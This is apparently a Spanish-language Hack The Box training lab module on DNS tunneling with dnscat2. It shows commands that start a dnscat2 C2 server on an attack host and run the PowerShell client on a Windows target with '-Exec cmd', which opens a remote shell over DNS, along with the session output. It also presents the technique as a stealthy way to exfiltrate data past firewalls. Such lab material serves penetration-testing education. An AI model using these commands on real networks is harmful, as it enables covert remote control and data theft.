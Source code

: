 # DNS Tunneling with Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2)es una herramienta de túnel que utiliza el protocolo DNS para enviar datos entre dos hosts. Utiliza un encriptado`Command-&-Control` (`C&C`o`C2`) canal y envía datos dentro de los registros TXT dentro del protocolo DNS. Por lo general, cada entorno de dominio de Active Directory en una red corporativa tendrá su propio servidor DNS, lo que resolverá los nombres de host en direcciones IP y enrutará el tráfico a servidores DNS externos que participan en el sistema DNS general. Sin embargo, con DNSCAT2, la resolución de direcciones se solicita desde un servidor externo. Cuando un servidor DNS local intenta resolver una dirección, los datos se exfiltran y se envían a través de la red en lugar de una solicitud DNS legítima. DNSCAT2 puede ser un enfoque extremadamente sigiloso para exfiltrar los datos mientras evade las detecciones de firewall que tiran las conexiones HTTPS y olfatean el tráfico. Para nuestro ejemplo de prueba, podemos usar el servidor DNSCAT2 en nuestro host de ataque y ejecutar el cliente DNSCAT2 en otro host de Windows.

---

# **Configurar y usar dnscat2**

Si DNSCAT2 aún no está configurado en nuestro host de ataque, podemos hacerlo usando los siguientes comandos:

### **Clonación de DNSCAT2 y configuración del servidor**

Túnel DNS con DNSCAT2

```
xnoxos@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.gitcd dnscat2/server/
sudo gem install bundler
sudo bundle install

```

Luego podemos iniciar el servidor DNSCAT2 ejecutando el archivo DNSCAT2.

### **Iniciar el servidor DNSCAT2**

Túnel DNS con DNSCAT2

```
xnoxos@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cacheNew window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```

Después de ejecutar el servidor, nos proporcionará la clave secreta, que tendremos que proporcionar a nuestro cliente DNSCAT2 en el host de Windows para que pueda autenticar y cifrar los datos que se envían a nuestro servidor DNSCAT2 externo. Podemos usar el cliente con el proyecto DNSCAT2 o usar[DNSCAT2-POWERSHELL](https://github.com/lukebaggett/dnscat2-powershell), un cliente basado en PowerShell compatible con DNSCAT2 que podemos ejecutar desde objetivos de Windows para establecer un túnel con nuestro servidor DNSCAT2. Podemos clonar el proyecto que contiene el archivo del cliente a nuestro host de ataque, luego transferirlo al objetivo.

### **Clonación de DNSCAT2-POWERSHELL al anfitrión de ataque**

Túnel DNS con DNSCAT2

```
xnoxos@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Una vez que el`dnscat2.ps1`El archivo está en el objetivo, podemos importarlo y ejecutar CMD-Lets asociados.

### **Importación de dnscat2.ps1**

Túnel DNS con DNSCAT2

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1

```

Después de importar DNSCAT2.PS1, podemos usarlo para establecer un túnel con el servidor que se ejecuta en nuestro host de ataque. Podemos enviar una sesión de shell CMD a nuestro servidor.

Túnel DNS con DNSCAT2

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

Debemos usar el secreto previamente compartido (`-PreSharedSecret`) Generado en el servidor para garantizar que nuestra sesión esté establecida y encriptada. Si todos los pasos se completan con éxito, veremos una sesión establecida con nuestro servidor.

### **Confirmando el establecimiento de la sesión**

Túnel DNS con DNSCAT2

```
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>

```

Podemos enumerar las opciones que tenemos con DNSCAT2 ingresando`?`en el aviso.

### **Listado de opciones DNSCAT2**

Túnel DNS con DNSCAT2

```
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows

```

Podemos usar DNSCAT2 para interactuar con las sesiones y avanzar más en un entorno objetivo en los compromisos. No cubriremos todas las posibilidades con DNSCAT2 en este módulo, pero se recomienda encarecidamente practicar con él y tal vez incluso encontrar formas creativas de usarlo en un compromiso. Interactuemos con nuestra sesión establecida y bajemos en un caparazón.

### **Interactuar con la sesión establecida**

Túnel DNS con DNSCAT2

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```